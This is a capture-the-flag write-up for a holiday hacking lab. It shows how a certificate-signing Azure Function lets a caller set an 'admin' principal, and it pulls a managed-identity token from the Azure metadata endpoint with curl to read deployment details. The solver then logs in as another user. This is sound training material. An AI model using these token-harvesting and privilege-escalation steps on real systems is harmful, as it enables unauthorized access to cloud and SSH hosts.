




# Certificate SSHenanigans

**Difficulty**: <i class=twemoji_red>:fontawesome-solid-tree::fontawesome-solid-tree::fontawesome-solid-tree::fontawesome-solid-tree::fontawesome-solid-tree:</i><br/>
**Direct link**: [Create Cert](https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl)

## Objective

!!! question "Request"
    Go to Pixel Island and review Alabaster Snowball's new SSH certificate configuration and [Azure Function App](https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl). What type of cookie cache is Alabaster planning to implement?

??? quote "Alabaster Snowball"
    Hey there! I'm currently a bit swamped with this Azure deployment.<br/>
    Once I'm done I'll tell you about it. It's pretty awesome!<br/>
    You'll need a bit of Azure knowledge though. Sparkle Redberry can help you get up to speed on that. You can find her at the Rudolph's Rest Resort on Christmas Island.<br/>
    <br/>
    Hello there! Alabaster Snowball at your service.<br/>
    I could use your help with my fancy new Azure server at **ssh-server-vm.santaworkshopgeeseislands.org**.<br/>
    ChatNPT suggested I upgrade the host to use SSH certificates, such a great idea!<br/>
    It even generated ready-to-deploy code for an [Azure Function App](https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl) so elves can request their own certificates. What a timesaver!<br/>
    I'm a little wary though. I'd appreciate it if you could take a peek and confirm everything's secure before I deploy this configuration to all the Geese Islands servers.<br/>
    Generate yourself a certificate and use the monitor account to access the host. See if you can grab my TODO list.<br/>
    If you haven't heard of SSH certificates, Thomas Bouve gave an introductory talk and demo on that topic recently.<br/>
    Oh, and if you need to peek at the Function App code, there's a handy [Azure REST API endpoint](https://learn.microsoft.com/en-us/rest/api/appservice/web-apps/get-source-control) which will give you details about how the Function App is deployed.
    
## Hints

??? tip "Azure Function App Source Code"
    The [get-source-control](https://learn.microsoft.com/en-us/rest/api/appservice/web-apps/get-source-control) Azure REST API endpoint provides details about where an Azure Web App or Function App is deployed from.

??? tip "SSH Certificates Talk"
    Check out Thomas Bouve's [talk and demo](https://youtu.be/4S0Rniyidt4) to learn all about how you can upgrade your SSH server configuration to leverage SSH certificates.

??? tip "Azure VM Access Token"
    Azure CLI tools aren't always available, but if you're on an Azure VM you can always use the [Azure REST API](https://learn.microsoft.com/en-us/entra/identity/managed-identities-azure-resources/how-to-use-vm-token) instead.

## Solution

<figure markdown>
{ width="700"}
</figure>

Alabaster used ChatNPT for assistance in setting up SSH certificate authentication, and then deployed code to assist in generating those certificates. I wonder if Alabaster checked the code.

We generate a key,

```
$ ssh-keygen -f ssh_key
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ssh_key
Your public key has been saved in ssh_key.pub
The key fingerprint is:
SHA256:7s5VX1ArODOmzzuDJ827hcAO++zy+lxmDMwenu3Z8KU mark@deepthought
The key's randomart image is:
+---[RSA 3072]----+
|                .|
|            .  ..|
|           * ... |
|        + o + .. |
|       .SO  .   .|
|       .* X... . |
|       ..==@ ... |
|       +++=*B o  |
|       oXBo*=E   |
+----[SHA256]-----+
```

Paste ssh_key.pub to the [Azure Function App](https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl) and get back:

<figure markdown>
{ width="700"}
</figure>

We save the ssh_cert value to a local file, ssh_key.crt, and then use that along with our private key to ssh into **ssh-server-vm.santaworkshopgeeseislands.org** as **monitor**

```
$ ssh-keygen -L -f ssh_key.crt 
ssh_key.crt:
        Type: ssh-rsa-cert-v01@openssh.com user certificate
        Public key: RSA-CERT SHA256:7s5VX1ArODOmzzuDJ827hcAO++zy+lxmDMwenu3Z8KU
        Signing CA: ED25519 SHA256:gvQLUkenLfTvsxJJzB8CpxgaA5lapSc9YEZZEnLudbk (using ssh-ed25519)
        Key ID: "902c7e39-280e-4926-8d4b-5f79e365bd38"
        Serial: 1
        Valid: from 2024-01-05T19:29:55 to 2024-02-02T19:34:55
        Principals: 
                elf
        Critical Options: (none)
        Extensions: 
                permit-pty

$ ssh monitor@ssh-server-vm.santaworkshopgeeseislands.org -i ssh_key -i ssh_key.crt
```

Now that we are on an Azure VM, we can use the [Azure REST API](https://learn.microsoft.com/en-us/entra/identity/managed-identities-azure-resources/how-to-use-vm-token) to generate a vm token to interact with the REST API.

```
accesstok=$(curl -G -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" | jq '.access_token' | sed -r 's/\"//g')
```

And now that we have a vm accesstoken, we can proceed to List [Subscriptions](https://learn.microsoft.com/en-us/rest/api/subscription/subscriptions/list?view=rest-subscription-2021-10-01&tabs=HTTP), [Resource Groups](https://learn.microsoft.com/en-us/rest/api/resources/resource-groups/list?view=rest-resources-2021-04-01), and knowing that the site is **northpole-ssh-certs-fa**, we can then check out [Source Control](https://learn.microsoft.com/en-us/rest/api/appservice/web-apps/get-source-control?view=rest-appservice-2022-03-01)


```bash hl_lines="12"
curl -X GET -H "Authorization: Bearer $accesstok" https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Web/sites/northpole-ssh-certs-fa/sourcecontrols/web?api-version=2022-03-01
{
  "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Web/sites/northpole-ssh-certs-fa/sourcecontrols/web",
  "name": "northpole-ssh-certs-fa",
  "type": "Microsoft.Web/sites/sourcecontrols",
  "location": "East US",
  "tags": {
    "project": "northpole-ssh-certs",
    "create-cert-func-url-path": "/api/create-cert?code=candy-cane-twirl"
  },
  "properties": {
    "repoUrl": "https://github.com/SantaWorkshopGeeseIslandsDevOps/northpole-ssh-certs-fa",
    "branch": "main",

```

Checking out the code repository, we see that they are using Python for the Azure Function App and looking closer at [function_app.py](https://github.com/SantaWorkshopGeeseIslandsDevOps/northpole-ssh-certs-fa/blob/main/function_app.py) 

```python linenums="1" hl_lines="3 5"
def parse_input(data) -> Tuple[PublicKey, str]:
    """Parse and validate input parameters."""
    ssh_pub_key = data.get("ssh_pub_key")
 #...
    principal = data.get("principal", DEFAULT_PRINCIPAL)
 #...
```
It looks like they are checking and parsing **principal** in the POST JSON, and using **DEFAULT_PRINCIPAL** of **elf**. What if we are able to pass our own principal in what we send?

If we watch the network traffic using the developer tools, we see a POST action to **https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl**

<figure markdown>
{ width="800"}
</figure>

We only have the ssh_pub_key in the JSON payload, so what if we add principal to the payload and resend? But what principal should we use?
Checking the /etc/ssh/ folder for config files, /etc/ssh/sshd_config.d/sshd_config_certs.conf shows

``` hl_lines="8"
monitor@ssh-server-vm:~$ cat /etc/ssh/sshd_config.d/sshd_config_certs.conf 
# Set the host keys, certificates, and principals file
HostKey /etc/ssh/ssh_host_rsa_key
HostKey /etc/ssh/ssh_host_ed25519_key
HostCertificate /etc/ssh/ssh_host_rsa_key-cert.pub
HostCertificate /etc/ssh/ssh_host_ed25519_key-cert.pub
TrustedUserCAKeys /etc/ssh/ca.pub
AuthorizedPrincipalsFile /etc/ssh/auth_principals/%u
...
monitor@ssh-server-vm:~$ ls /etc/ssh/auth_principals
alabaster  monitor
monitor@ssh-server-vm:~$ cat /etc/ssh/auth_principals/alabaster 
admin
```
We use admin and get the following response

<figure markdown>
{ width="800"}
</figure>

We save the ssh_cert to ssh_admin_key.crt and see if we can login as alabaster

```
$ ssh-keygen -L -f ssh_admin_key.crt 
ssh_admin_key.crt:
        Type: ssh-rsa-cert-v01@openssh.com user certificate
        Public key: RSA-CERT SHA256:7s5VX1ArODOmzzuDJ827hcAO++zy+lxmDMwenu3Z8KU
        Signing CA: ED25519 SHA256:gvQLUkenLfTvsxJJzB8CpxgaA5lapSc9YEZZEnLudbk (using ssh-ed25519)
        Key ID: "1ff552f2-01fe-411d-8549-04c38492e735"
        Serial: 1
        Valid: from 2024-01-05T20:47:37 to 2024-02-02T20:52:37
        Principals: 
                admin
        Critical Options: (none)
        Extensions: 
                permit-pty
$ ssh alabaster@ssh-server-vm.santaworkshopgeeseislands.org -i ssh_key -i ssh_admin_key.crt 
alabaster@ssh-server-vm:~$ 
```
We are in, checking the home directory...
``` hl_lines="10"
alabaster@ssh-server-vm:~$ ls 
alabaster_todo.md  impacket
alabaster@ssh-server-vm:~$ cat alabaster_todo.md 
# Geese Islands IT & Security Todo List

- [X] Sleigh GPS Upgrade: Integrate the new "Island Hopper" module into Santa's sleigh GPS. Ensure Rudolph's red nose doesn't interfere with the signal.
- [X] Reindeer Wi-Fi Antlers: Test out the new Wi-Fi boosting antler extensions on Dasher and Dancer. Perfect for those beach-side internet browsing sessions.
- [ ] Palm Tree Server Cooling: Make use of the island's natural shade. Relocate servers under palm trees for optimal cooling. Remember to watch out for falling coconuts!
- [ ] Eggnog Firewall: Upgrade the North Pole's firewall to the new EggnogOS version. Ensure it blocks any Grinch-related cyber threats effectively.
- [ ] Gingerbread Cookie Cache: Implement a gingerbread cookie caching mechanism to speed up data retrieval times. Don't let Santa eat the cache!
- [ ] Toy Workshop VPN: Establish a secure VPN tunnel back to the main toy workshop so the elves can securely access to the toy blueprints.
- [ ] Festive 2FA: Roll out the new two-factor authentication system where the second factor is singing a Christmas carol. Jingle Bells is said to be the most secure.
alabaster@ssh-server-vm:~$ 
```

!!! success "Answer"
    Gingerbread Cookie Cache 

## Response

!!! quote "Alabaster Snowball"
    Oh my! I was so focused on the SSH configuration I completely missed the vulnerability in the Azure Function App.</br>
    Why would ChatNPT generate code with such a glaring vulnerability? It's almost like it wanted my system to be unsafe. Could ChatNPT be evil?</br>
    Thanks for the help, I'll go and update the application code immediately!</br>
    While we're on the topic of certificates, did you know Active Directory (AD) uses them as well? Apparently the service used to manage them can have misconfigurations too.</br>
    You might be wondering about that SatTrackr tool I've installed on the monitor account?</br>
    Here's the thing, on my nightly stargazing adventures I started noticing the same satellite above Geese Islands.</br>
    I wrote that satellite tracker tool to collect some additional data and sure enough, it's in a geostationary orbit above us.</br>
    No idea what that means yet, but I'm keeping a close eye on that thing!
